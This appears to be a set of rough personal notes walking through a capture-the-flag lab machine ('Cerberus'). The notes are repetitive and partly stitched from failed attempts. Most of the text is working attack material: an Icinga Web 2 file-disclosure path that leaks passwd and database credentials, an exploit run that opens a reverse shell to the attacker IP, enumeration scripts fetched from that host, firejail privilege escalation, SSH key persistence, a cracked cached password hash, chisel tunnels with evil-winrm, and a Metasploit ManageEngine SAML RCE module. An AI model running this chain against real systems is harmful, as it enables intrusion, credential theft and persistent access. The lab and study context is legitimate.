





http://icinga.cerberus.local:8080/icingaweb2


it is redirecting to icinga

adding to /etc/hosts website opens

tried default password for icinga icingaadmin
icinga

https://packetstormsecurity.com/files/171774/Icinga-Web-2.10-Arbitrary-File-Disclosure.html

for the icinga exploit you simply have to go to 

http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd

we have

```
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```

[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"

ip address: http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini


after using hte creds on the icinga panel


the exploit was successfull

```
─# python3 icinga_exploit.py -t http://icinga.cerberus.local:8080/icingaweb2 -I 10.10.16.24 -P 1234 -u matthew -p IcingaWebPassword2023 -e /root/.ssh/ssh.pem    
[INFO] Attempting to login to the Icinga Web 2 instance...
[INFO] Attempting to upload our malicious module...
[SUCCESS] The payload appears to be uploaded successfully!
[INFO] Modifying configurations...
[INFO] Attempting to enable the malicious module...
[INFO] Trying to trigger payload! Have a listener ready!
[SUCCESS] It appears that a reverse shell was started!
[INFO] Removing malicious module file...
[INFO] Disabling malicious module...
[INFO] Resetting website configuration...
[SUCCESS] Cleanup successful! Shutting down...
[ALERT] In the process of exploitation, the application logging has been turned off. Log in manually to reset these settings!
```
to see where we can write on the disk 

`find / -writable 2>/dev/null`

wget http://10.10.16.24:8000/linpeas.sh 

icinga                                                                                                             
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

for privilege escalation
https://seclists.org/oss-sec/2022/q2/188

after creating a python spawn shell the exploit worked
python3 -c 'import pty; pty.spawn("/bin/bash")'


firejail --join=9159
su -

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0fQqdcN8qxqB3OH9lCBMyGcAz+c8a5uRxuvif1A98/jv5LLYy/2GO7r68nHOSIviFtkbnydmuTyzBBSWhbxC/MWAX8XZx5C3rF598/phDzwN4seus2SMhZi5zUZ6iylBBI8xht5J+u/InI6BlsXQ65H3xw+yFxndxeKi3Gu17glt3OEe8aAPaxj3qU89L1xbOr4m3mSqnhJne7eV05nqYvZDHP+pgOQE02dmmplRfTHCKbEfwqY/nDx7QWw6WtrQigNlEGNcWJUVKNlXBGoGHZuyHNMpoh4XjinLeM9GKFY4xRxk2CyFBLwlouOtj7s5EtFB5CLnaQMpDtzI+gJyma7nzxJZxELrlTHyjPJoQHQSmlQe+tBNBRAEL92wac79psK7s3PARdCcyEnpe8l9cplPP8YIS8tMg6BVVjTGPQNN0BJBwRxEjrvAKae1phztkQD7tZKy3aEl8VCUR8tpJ0fw0mK6/PJGxgCYXZWWKwycHOnJKQYDL17qsTypaLL8= kali@kali" >> authorized_keys


```
strings cache_cerberus.local.ldb

name=matthew@cerberus.local,cn=users,cn=cerberus.local,cn=sysdb
&DN=@INDEX:GIDNUMBER:1000
@INDEX:GIDNUMBER:1000
@IDXVERSION
@IDX
name=matthew@cerberus.local,cn=users,cn=cerberus.local,c
matthew@cerberus.local
objectCategorycere
achedPassword
$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0
cachedPasswordType
lastCachedPasswordChange
1677672476

```

$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0

147258369

matthew:147258369

using evilwinrm

https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/

proxychains evil-winrm -u matthew -p 147258369 -i 172.16.22.1

trying evil winrm on dc with prooxychains

https://hack.technoherder.com/chisel/

sudo ./chisel server -p 8081 --reverse 
- on attacker

./chisel client 10.10.16.24:8081 R:socks
 - on victim

on attacker
sudo nano /etc/proxychains4.conf
# Add this following line at the bottom
socks5   127.0.0.1   1080

how to add attacker ot proxychains is what i need to look into

-i 172.16.22.1

trying evil winrm on dc with prooxychains

https://hack.technoherder.com/chisel/

sudo ./chisel server -p 8081 --reverse 
- on attacker

./chisel client 10.10.16.24:8081 R:socks
 - on victim

on attacker
sudo nano /etc/proxychains4.conf

`socks5   127.0.0.1   1080`

how to add attacker ot proxychains is what i need to look into

this worked



got user flag

curl http://10.10.16.24:8000/winpeas.ps1 -o winpeas.ps1

https://medium.com/@satyasangwal/cerberus-htb-machine-40b8070b9d05


1..10000 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“10.10.11.205”,$_)) “Port $_ is open!”} 2>$null

`1..10000 | % {echo ((new-object Net.Sockets.TcpClient).Connect('10.10.11.205',$_)) "Port $_ is open!"} 2>$null`

to see which port are open

these can then be porsted back

/chisel.exe client 10.10.16.24:8001 R:80localhost:80 R:443:localhost:443 R:8888:localhost:8888 R:9251:localhost:9251

127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

### running multiple chisel endpoints with proxy
https://hack.technoherder.com/chisel/

for socks 5 need to disable strict chain

.\chisel.exe client 10.10.16.24:8002 R:3080:socks

and in config
socks5 127.0.0.1 3080

### another thing we can do simple port forwarding without proxy

./chisel.exe client 10.10.16.24:8002 R:80:localhost:80 R:443:localhost:443 R:8888:localhost:8888 R:9251:localhost:9251

sudo ./chisel server -p 8082 --reverse 

> both are not working

and then using this we can get access to the website at

https://dc.cerberus.local

and get the guid

67a8d101690402dc6a6744b8fc8a7ca1acf88b2f

we can use 

`use exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966`
set issuer_url http://dc.cerberus.local/adfs/services/trust
set rhosts 127.0.0.1
set rhosts 172.16.22.1
set lhost 10.10.16.24
set lport 7777
exploit


this might be different for different people

### lets try without using reverse proxy

./chisel client 10.10.16.24:8001 R:5985:172.16.22.1:5985


now we simply run evilwinrm

to get access

evil-winrm -i 10.10.16.24 -u matthew -p 147258369

since 10.10.16.24 is our ip

this will not wokr because then it needs two layers of proxy so we will use socks proxy to get in then try using chisel proxy.

./chisel client 10.10.16.24:8001 R:1080:socks


on windows

/chisel.exe client 10.10.11.205:9091 R:80:localhost:80 R:443:localhost:443 R:8888:localhost:8888 R:9251:localhost:9251

./chisel client 10.10.16.24:8082 R:80:localhost:80


use exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966

the machine is not connected to internet somehow

echo "nameserver 10.10.16.24" >> /etc/resolv.conf

sudo ./chisel server -p 8082 --reverse 
python3 -c 'import pty; pty.spawn("/bin/bash")'

.\chisel.exe client 172.16.22.2:9095 R:80:localhost:80 R:443:localhost:443 R:8888:localhost:8888 R:9251:localhost:9251

./chisel client 10.10.16.24:8081 R:socks


for some reason single proxies work

.\chisel.exe client 172.16.22.2:9095 R:9251:localhost:9251

./chisel server -p 9095 --reverse

./chisel client 10.10.16.24:8006 R:9251:localhost:9251

8888 redirects to 9251

even after that it did not load



when I am putting 9251 its working

but it keeps redirecting to 443 so

su -
root@icinga:~# ./chisel client 10.10.16.24:8006 R:443:localhost:9251
./chisel client 10.10.16.24:8006 R:443:localhost:9251



still not getting the thing
authorization always redirects

https://dc.cerberus.local/adfs/ls/?SAMLRequest=pVPLbtswELz3KwTerQetyDJhKXDtBjXgtIKt9NBLQZMrhwBFuiTlJH8fyo%2FULVoXaE8EyNnd2Znh5Pa5lcEejBVaFSgJYxSAYpoLtS3QQ303yNFt%2BW5iaSvxjkw796hW8L0D64KptWCcr5tpZbsWzBrMXjB4WC0L9OjczpIoms%2FIGN8kUd9gqbdCRdmI5jyJk2wcpzHmLKPZKE03ecNyOmI0oazJ8w1uUDD3U4Si7kDt3JCzkIHZgOlsKDWjMqK8sZG0EQoW8wJ9G44A51nMU2h4ikd5usmGnCY3PMfNMGbMw6ztYKGso8oVCMd4OIizAc7qZEzilOBxmMfJVxRURjvNtHwv1FGPziiiqRWWKNqCJY6R9fR%2BSXAYk80RZMnHuq4G1ed1fWiwFxzMJ48u0D1VdAsflBcBgul8DbI5KRZUsrMo%2BHK2Afc2eGOUJUfhr4%2FenXii8ugTOSxogjttWuqu1%2FY3gg%2BaA5SAcsK9%2FDT7ejk9ZwCV%2F%2B%2F4JLqkX55D16u3mFdaCvYSTKXUTzMD1HlFnekA%2FXXNJEx%2BWbNTdgdMNAI4it7mnHIN%2FJByH2oHzy6Y6XZHjbC9L%2FBMmXtT%2BRI2k16JFTT%2FpNxVGCOs7%2B2vK388acP7WALzPGtD%2FSLauLNwv2NUnh7%2FsN%2BP58u%2FXb4C&RelayState=aHR0cHM6Ly9EQzo5MjUxL3NhbWxMb2dpbi9MT0dJTl9BVVRI

its not working 
lets try withot proxychains once

./chisel client 10.10.16.24:8001 R:5985:172.16.22.1:5985
./chisel server -p 8001 — reverse

.\chisel.exe client 10.10.16.24:9095 R:80localhost:80 R:443:localhost:443 R:8888:localhost:8888 R:9251:localhost:9251
./chisel server -p 9095 -reverse

finally got the access



we got the guid after login as 

https://dc:9251/samlLogin/67a8d101690402dc6a6744b8fc8a7ca1acf88b2f


msfconsole
`use exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966`
set issuer_url http://dc.cerberus.local/adfs/services/trust
set GUID 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
set rhosts 127.0.0.1
set lhost 10.10.16.24
set lport 7777
exploit




C:\Users\Administrator\Desktop>type root.txt
type root.txt
140d0c42a9b55e680d42a2d873ea72d6


